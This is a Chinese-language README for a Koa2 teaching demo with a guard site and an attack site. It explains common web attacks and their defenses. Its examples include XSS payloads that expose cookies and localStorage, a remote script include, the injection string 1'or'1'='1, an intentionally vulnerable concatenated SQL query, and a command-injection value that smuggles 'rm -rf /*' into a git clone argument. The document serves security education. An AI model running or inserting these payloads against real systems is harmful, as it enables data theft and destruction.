

### desc

* guard 防护网站
* attack 攻击网站

### 技术选型
> koa2 + mysql + sequelize + ejs  
> 只是为了演示网络安全问题,所以没有做各种细节处理,mysql 中也没有加索引 主键 等等等
> 大部分情况针对HTTP , HTTPS有更加严密的方式

### 启动
```shell
$ npm i 
$ npm i nodemon -g
$ nodemon index.js
```


### desc

1. XSS
2. CSRF
3. 点击劫持
4. SQL注入
5. OS注入
6. 请求劫持
7. DDOS


#### XSS 跨站脚本攻击
> XSS(Cross-Site Scripting)跨站脚本攻击, 因为缩写和CSS重叠,所以叫XSS.  XSS是指 通过存在的安全漏洞的WEB注册用户的浏览器内运行非法的非本站点的HTML标签或JavaScript进行一种攻击. 

##### XSS分类
* 反射弧XSS (非持久型XSS)
* DOM型XSS (非持久性XSS)
* 储存型XSS (持久性XSS)

1. 反射弧XSS示例
  * 攻击构造出特殊的URL,包含恶意代码列如:
  ```shell
   $ http://localhost:3699/?from=<script>alert(document.cookie)</script>
   $ http://localhost:3699/?from=<script>alert(JSON.stringify(localStorage))</script>
  ```
2. DOM型XSS
  * 攻击者构造出URL,包含恶意代码,进行XSS攻击
  ```shell
  $ http://localhost:3699/?from=<script>alert('XSS')</script>
  ```
3. 存储型XSS  
  * 存储到DB后读取时注入
  ```shell
  # 评论
  $ <script>alert(1)</script>
  # 跨站脚本注入 * 评论或者其他方式 注入到页面
  $ 这是一条评论 <script src="http://localhost:4000/hack.js"></script>
  ```

##### XSS防护
1. HEAD X-XSS-Protection  (新浏览器已失效,之前常用来禁止和启用XSS过滤,)


2. 转义
    > 在 XSS 攻击中，攻击者主要是通过构造特殊字符来注入脚本，所以对用户的输入进行检测就很有必要，并且需要在客户端与服务端都进行输入检测，然后对用户输入的数据进行转义。主要就是对输入所包含的特殊字符进行转义，如 <，>，&，"，'，来防止 XSS 攻击。
    
  * 自定义转义方法 黑名单
    ```javaScript
    function escapeHTML(str) {
      if (!str) return '';
      str = str.replace(/&/g, "&amp;");
      str = str.replace(/</g, "&lt;");
      str = str.replace(/>/g, "&gt;");
      str = str.replace(/"/g, "&quot;");
      str = str.replace(/'/g, "&#39;");
      return str;
    };
    ```
  * 白名单
    ```JavaScript
      const xss = require('xss')
      const html = xss('包含XSS标签')
    ```
  * 设置HttpOnly Cookie
    ```JavaScript
      response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly")
    ```

#### CSRF 跨站请求伪造
> CSRF(Cross Site Request Forgery), 利用用户已经登陆了的身份,在用户毫不知情的情况下,以用户的名义完成非法操作

* 场景  
  1. 用户A登录了站点A,并且留下cookie 或者 localStorage的token
  2. 在用户没有登出A的情况下,访问了攻击者提供的B(B站点要求访问A)

* 防御
  1. SameSite 属性 Cookie 的 SameSite 属性用来限制第三方 Cookie，从而减少安全风险，可以用来防止 CSRF 攻击和用户追踪。  
     属性: Strict  Lax None  
     [SameSite 规则](http://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html)
  2. 同源检测 : 在Http中, 每一个异步请求都会携带两个 Header ，用于标记来源域名： Origin Header,Referer Header
  ```javaScript
      const referer = ctx.request.header.referer
      console.log('Referer:', referer)
  ```

#### clickjacking 点击劫持
> 点击劫持是⼀种视觉欺骗的攻击⼿段。攻击者将需要攻击的⽹站通过 iframe 嵌套的⽅式嵌⼊⾃⼰的⽹⻚中，并将 iframe 设置为透明，在⻚⾯中透出⼀个按钮诱导⽤户点击 

* 场景示范
```shell

 # 登录之后访问
 http://localhost:4396/clickjacking.html

```
* 防御
  1. X-FRAME-OPTIONS HTTP响应头,设置可以防御用iframe嵌套的点击劫持攻击  
      DENY，表示⻚⾯不允许通过 iframe 的⽅式展示
      SAMEORIGIN，表示⻚⾯可以在相同域名下通过 iframe 的⽅式展示
      ALLOW-FROM，表示⻚⾯可以在指定来源的 iframe 中展示
  ```javaScript
    ctx.set('X-FRAME-OPTIONS', 'DENY')
  ```
  2. js 方式
    ```html
      <style id="click-jack">
        html {
        display: none !important;
        }
      </style>
      </head>
      <body>
        <script>
        if (self == top) {
        const style = document.getElementById('click-jack')
        document.body.removeChild(style)
        } else {
        top.location = self.location
        }
        </script>
      </body>
    ```
    在页面中写入该代码,当通过iframe 加载页面时,攻击者网页直接不显示防御者的网页内容

### SQL注入
* 场景
```
// 填⼊特殊密码
1'or'1'='1
```

* 防御
  1. 参数化的语句使⽤参数⽽不是将⽤户 输⼊变量嵌⼊到 SQL 语句中，即不要直接拼接 SQL 语句。
  ```JavaScript
  // 错误写法
  const sql = `
  SELECT *
  FROM safety.login
  WHERE name = '${username}'
  AND password = '${password}'
  `
  const res = await sequelize.query(sql ,  { type: sequelize.QueryTypes.SELECT  })
  // 正确写法
  const sql = `
    SELECT *
    FROM safety.login
    WHERE name = ?
    AND password = ?
  `
  const res = await sequelize.query(sql , {replacements: [username, password]  , type: sequelize.QueryTypes.SELECT  })
  ```
  2. 严格限制WEB应用的数据库的操作权限,给用户提供仅仅能够满足当前工作的最低权限 从而最低限度的减少注入攻击对数据库的危害
  3. 严格检查输入的数据是否符合预期,严格限制变量的类型,对进⼊数据库的特殊字符（'，"，\，<，>，&，*，; 等）进⾏转义处理，或编码转换

### os命令注入
> os命令注入和SQL注入很相似,区别在于SQL注入针对操作系统. OS命令注入攻击通过WEB应用执行非法的操作系统命令以达到攻击的目的.只要能调用shell命令的地方就存在被攻击的风险

* 场景
  ```JavaScript
  const exec = require('mz/child_process').exec
  let { repo } = ctx.request.body
  exec(`git clone ${repo}/some/path`)
  ```
  ```shell
  # 假设传入参数是 
  https://github.com/xx/xx.git && rm -rf /* &&
  ```

### 请求劫持
* DNS(Domain Name Syste)劫持 
  
  > 顾名思义，DNS服务器(DNS解析各个步骤)被篡改，修改了域名解析的结果，使得访问到的不是预期的ip,
* HTTP劫持 运营商劫持 
  
  > 运营商劫持 升级HTTPS

### DDOS 
> DDOS 不是一种攻击，而是一大类攻击的总称。它有几十种类型，新的攻击方法还在不断发明出来。网站运行的各个环节，都可以是攻击目标。只要把一个环节攻破，使得整个流程跑不起来，就达到了瘫痪服务的目的。其中比较常见的一种攻击是cc攻击, 简单粗暴的送来大量请求,超出服务器的最大承受量, 导致宕机.


#### 一些其他的WEB攻击

1. 目录遍历攻击
> 目录遍历(Directory Traversal) 攻击是指对本无意公开的文件目录,通过非法手段,达成访问目的.

> 场景: WEB应用对文件处理操作时,由外部指定文件名的处理存在疏漏的情况下，用户可使用．../等相对路径定位到/etc/passed(linux保存用户信息密码路径)等绝对路径上，达到访问服务器任意的文件或文件目录. 从而非法浏览篡改删除WEB服务器上的文件

> 防护: 设定WEB服务器上对应文件名的访问权限,关闭指定对任意文件的访问权限


2. 不正确的错误消息处理
> 不正确的错误消息处理（Error Handling Vulnerability）的安全漏洞是指, WEB应用产生提示的错误信息有些时候会包含对攻击者有用的信息.
* Web应用抛出的错误信息
* 数据库等系统抛出的错误信息
* ...

> 防护,Web应用不必要在用户的浏览页面上抛出详细的错误信息.攻击者可能通过详细的错误信息知晓服务器的信息,从而成为下一次攻击的提示

4. 密码破解
> 密码破解攻击（Password Cracking）即算出密码，突破认证。攻击不仅限于Web应用，还包括其他的系统（如FTP或SSH等）。有以下几种破解方法：

* 穷举法: 对所有密钥集合构成的密钥空间（Keyspace）进行穷举。即，用所有可行的候选密码对目标的密码系统试错，用以突破验证的一种攻击。
* 字典攻击: 利用事先收集好的候选密码（经过各种组合方式后存入字典），枚举字典中的密码，尝试通过认证的一种攻击手法。


>说明: 字典攻击中有一种利用其他Web网站已泄露的ID及密码列表进行的攻击。很多用户习惯随意地在多个Web网站使用同一套ID及密码，因此攻击会有相当高的成功几率

>防护: 建议用户多个网站不用同义密码, 手机验证码登录 ,  Authenticator code 登录


参考文献:  
[谈谈DDOS的攻击与防御](https://mp.weixin.qq.com/s?__biz=MzI3MTI2NzkxMA==&mid=2247486202&idx=1&sn=a8394ebb01078de971ec405aeacf08fa&chksm=eac52bd3ddb2a2c5543fdb6fe128bb30095fc85b47c11671260b204998d1f8ae8eb4b69a686f&token=1694324409&lang=zh_CN#rd)  
[cookie 的SamSite属性](http://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html)  
[常见的Web攻击及防御方法](https://juejin.im/post/6844904034248163335#heading-23)  
[跨站脚本攻击--XSS](https://segmentfault.com/a/1190000020402185)
[跨站请求伪造--CSRF](https://segmentfault.com/a/1190000021114673)    
[DDOS 攻击的防范教程-阮一峰](http://www.ruanyifeng.com/blog/2018/06/ddos.html)

### 学无止境,未来路上星辰大海